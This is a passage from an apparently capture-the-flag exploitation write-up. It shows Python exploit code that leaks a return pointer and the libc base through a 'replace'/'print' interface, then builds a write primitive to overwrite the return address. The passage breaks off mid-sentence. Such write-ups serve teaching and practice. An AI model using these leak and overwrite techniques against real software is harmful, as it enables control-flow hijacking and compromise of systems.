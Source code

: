 2. Find the value thats exactly `0x6e` bytes after string1  --> return pointer

3. Find the value thats exactly `0x7e` bytes after string1 and subtract `0x20830` from it --> libc base


Here is some code that does this
```python
def leak():
    leaks = []
    p.read()
    p.sendline("replace ? ?")
    p.read()
    p.sendline("print")
    p.readuntil(s1)
    p.read(0x6e)
    leaks.append(u64(p.read(6)[:8].strip().ljust(8, "\x00"))) # return ptr at offset 0x79 from s1
    p.read(0xa)
    leaks.append(u64(p.read(6)[:8].strip().ljust(8, "\x00"))) # libc address at offset 0x88 from s1
    p.read()
    return leaks
```

We might want to have a function that we can use to only leak the return pointer, so that we can check
if we've overwritten it already or not.
```python
def getRetPtr():
    sleep(0.2)
    p.sendline("print")
    p.readuntil(s1)
    p.read(0x6e)
    leak = u64(p.read(6)[:8].strip().ljust(8, "\x00"))
    p.read()
    return leak
```

#### Write primitive
We can use these functions
```python
def write(old, new, count):
    for i in range(count):
        sleep(0.2)
        p.sendline("replace %s %s" % (old, new))

def kindaStableWrite(old, new, count):
    write(old, "?", count)
    write("?", old, count-1)
    write("?", new, 1)

```
as a wrapper around our instable write using `replace` to overwrite the return pointer.
Let's assume we have this string in memory:
```
ajdeitk37adfna
```
and we want to overwrite the 3rd "a" with "A". So we would call
`kindaStableWrite("a", "A", 3)`
What `kindaStableWrite` does is replace all "a"'s with "?" which I found to be a unique charackter on the stack. Well most of the time (I say most of the time because the values on the
stack are not stable and can change a lot especially with PIE enabled). Anyway we first overwrite all "a"'
with "?"'s. Then we overwrite all "?"'s-1 with "a"'s again this results in the "a" that we actually want to
overwrite being the only "?". And then we overwrite the only "?" with "A". I'm sure that there are some